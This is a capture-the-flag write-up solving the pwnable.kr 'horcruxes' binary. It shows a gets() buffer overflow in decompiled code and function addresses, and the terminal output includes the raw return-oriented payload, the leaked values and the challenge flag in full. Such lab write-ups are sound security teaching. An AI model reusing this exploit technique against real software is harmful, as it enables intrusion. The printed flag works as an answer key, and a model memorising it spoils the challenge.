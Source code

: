 # pwnable.kr -- Toddler's Bottle -- horcruxes

## 1. Challenge

> Voldemort concealed his splitted soul inside 7 horcruxes.  
> Find all horcruxes, and ROP it!  
> author: jiwon choi  
>   
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)  

## 2. Solution

Log in via SSH and you will see two files: `horcruxes` and `readme`. `readme` is a text file and it says:

```
horcruxes@ubuntu:~$ cat readme
connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.

horcruxes@ubuntu:~$
```

Fine. Let's download `horcruxes` and drop it into IDA. You can find that there are 7 random integers, `a`, `b`, `c`, ... `g`, generated and `sum` is set to the sum of these 7 integers in function `init_ABCDEFG()`. Because the seed of function `rand()` is set by 4 bytes read from `/dev/urandom`, we cannot hack it.

Now let's go to see function `ropme()`. 



```c
int ropme() {
  char s[100]; // [esp+4h] [ebp-74h]
  int v2; // [esp+68h] [ebp-10h]
  int fd; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( v2 == a ) {
    A();
  }
  else if ( v2 == b ) {
    B();
  }
  else if ( v2 == c ) {
    C();
  }
  else if ( v2 == d ) {
    D();
  }
  else if ( v2 == e ) {
    E();
  }
  else if ( v2 == f ) {
    F();
  }
  else if ( v2 == g ) {
    G();
  } else {
    printf("How many EXP did you earned? : ");
    gets(s);
    if ( atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

Apparently, function `gets()` is called which means that we can make a buffer overflow and overwrite return address. However, there are something we sould take care of:

1. Naturally we want to set return address to `0x080A010B` which is the start of `fd = open("flag", 0);`. But `0x080A010B` has a bad char `0x0A`, also `\n`, which will stop function `gets()` reading from stdin. So we cannot set return address to `0x080A010B`.

2. The code block we want to execute has the following assembly code:

   ```asm
   .text:080A010B                 sub     esp, 8
   .text:080A010E                 push    0               ; oflag
   .text:080A0110                 push    offset file     ; "flag"
   .text:080A0115                 call    _open
   .text:080A011A                 add     esp, 10h
   .text:080A011D                 mov     [ebp+fd], eax
   .text:080A0120                 sub     esp, 4
   .text:080A0123                 push    64h             ; nbytes
   .text:080A0125                 lea     eax, [ebp+s]
   .text:080A0128                 push    eax             ; buf
   .text:080A0129                 push    [ebp+fd]        ; fd
   .text:080A012C                 call    _read
   .text:080A0131                 add     esp, 10h
   .text:080A0134                 mov     [ebp+eax+s], 0
   .text:080A0139                 sub     esp, 0Ch
   .text:080A013C                 lea     eax, [ebp+s]
   .text:080A013F                 push    eax             ; s
   .text:080A0140                 call    _puts
   .text:080A0145                 add     esp, 10h
   .text:080A0148                 sub     esp, 0Ch
   .text:080A014B                 push    [ebp+fd]        ; fd
   .text:080A014E                 call    _close
   .text:080A0153                 add     esp, 10h
   .text:080A0156                 sub     esp, 0Ch
   .text:080A0159                 push    0               ; status
   .text:080A015B                 call    _exit
   ```

   Obviously we cannot set `ebp` whatever we want which will be affect during buffer overflow. Otherwise an access violation would occur.

I though it would be a hard challenge. But I found that all of function `A()`, `B()`, ... `G()` are located on addresses that have no bad char `\n`:

```
func_A_addr = 0x0809FE4B
func_B_addr = 0x0809FE6A
func_C_addr = 0x0809FE89
func_D_addr = 0x0809FEA8
func_E_addr = 0x0809FEC7
func_F_addr = 0x0809FEE6
func_G_addr = 0x0809FF05
```

So we can execute these functions one by one and get the values of `a`, `b`, `c`, `d`, `e`, `f` and `g`. After that, execute `ropme()` again and input the right sum to get flag.

```
horcruxes@ubuntu:/tmp/solve2$ python2 ./solve.py
[+] Opening connection to localhost on port 9032: Done
Voldemort concealed his splitted soul inside 7 horcruxes. 1

Find all horcruxes, and destroy it!

Select Menu: 00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000\x00aaaK\xfe   j\xfe   \x89\xfe   \xa8\xfe   ��   ��      \x05\xff   ��
How many EXP did you earned? : You'd better get more experience to kill Voldemort
You found "Tom Riddle's Diary" (EXP +-1507646648)
You found "Marvolo Gaunt's Ring" (EXP +-996987795)
You found "Helga Hufflepuff's Cup" (EXP +-1433450306)
You found "Salazar Slytherin's Locket" (EXP +-1973078909)
You found "Rowena Ravenclaw's Diadem" (EXP +1200843919)
You found "Nagini the Snake" (EXP +-1953066712)
You found "Harry Potter" (EXP +-1198887645)

Select Menu: 1
How many EXP did you earned? :  727660496
Magic_spell_1s_4vad4_K3daVr4!

[*] Closed connection to localhost port 9032
horcruxes@ubuntu:/tmp/solve2$
```

